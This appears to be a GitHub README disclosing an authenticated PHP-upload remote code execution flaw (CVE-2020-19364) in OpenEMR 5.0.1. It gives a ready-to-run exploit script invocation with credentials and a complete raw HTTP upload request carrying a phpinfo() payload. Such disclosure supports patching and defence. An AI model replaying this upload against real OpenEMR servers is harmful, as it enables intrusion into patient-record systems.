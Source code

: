 # OpenEMR Remote Code Execution Vulnerability
[OpenEMR 5.0.1](https://www.open-emr.org/) allows an authenticated attacker to upload and execute malicious php codes.

# PoC 
```
git clone https://github.com/EmreOvunc/OpenEMR_Vulnerabilities.git
cd OpenEMR_Vulnerabilities
python3 openemr_rce_poc.py -t http://127.0.0.1/openemr -u admin -p Passw0rd
```

![alt tag](https://emreovunc.com/blog/en/openemr_5.0.1_rce_02.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5.0.1_rce_01.png)

```
usage: openemr_rce_poc.py [-h] [--target TARGET] [--username USERNAME]
                          [--password PASSWORD]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        give OpenEMR URL
  --username USERNAME, -u USERNAME
                        give OpenEMR username
  --password PASSWORD, -p PASSWORD
                        give OpenEMR password
```
# CVE-2020-19364
To exploit vulnerability, someone could use 'http://[HOST]/controller.php?document&upload&patient_id=00&parent_id=4&' post request to upload malicious php codes.

```
POST /openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4& HTTP/1.1
Host: 172.16.155.140
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.155.140/openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4&
Content-Type: multipart/form-data; boundary=---------------------------141194333536146869123947219434
Content-Length: 842
Origin: http://172.16.155.140
DNT: 1
Connection: close
Cookie: OpenEMR=t1lugo5qrbhv7mc2c3q9ricsnl; TreeMenuBranchStatus=objTreeMenu_1_node_1_9; PHPSESSID=dfhapc4v0bskt7pcpmc2j93agq; LS-VQGNEIWNPEBSNBWE=6rm848pgjj78hhecpb9roo8af1; YII_CSRF_TOKEN=OWYyM0lybGFtRF9wcHRkZ1lldF9WblhoVHlVNk5HRW3WMnZhghJHNtBjyIuALM94Ww3gltGLoeKETBSfevfbCw%3D%3D
Upgrade-Insecure-Requests: 1

-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="MAX_FILE_SIZE"

64000000
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="file[]"; filename="shell_info.php"
Content-Type: text/php

<?php
phpinfo();
?>
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="destination"


-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="patient_id"

00
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="category_id"

4
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="process"

true
-----------------------------141194333536146869123947219434--

```

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_001.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_004.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_002.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_003.png)


